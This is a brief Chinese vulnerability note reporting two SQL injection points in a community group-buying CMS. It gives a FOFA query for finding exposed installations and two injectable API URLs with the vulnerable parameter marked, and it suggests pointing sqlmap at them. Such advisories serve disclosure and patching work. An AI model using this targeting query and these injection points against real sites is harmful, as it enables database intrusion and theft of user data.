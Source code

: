 # 狮子鱼社区团购系统CMS存在两处SQL注入

## 漏洞描述

狮子鱼社区团购系统CMS存在SQL注入

## 漏洞影响

> 狮子鱼社区团购系统

## FOFA

> "/seller.php?s=/Public/login"

## 代码审计

###SQL注入（1）

```
http://localhost/index.php?s=api/goods/get_goods_detail&id=1* id为注入参数
```

![1](resource/狮子鱼社区团购系统SQL注入/1.png)

![2](resource/狮子鱼社区团购系统SQL注入/2.png)

 

###SQL注入（2）

```
http://localhost/index.php?s=api/goods_detail&goods_id=1* id为注入参数
```

![3](resource/狮子鱼社区团购系统SQL注入/3.png)

![4](resource/狮子鱼社区团购系统SQL注入/4.png)

直接sqlmap梭哈：

![5](resource/狮子鱼社区团购系统SQL注入/5.png)
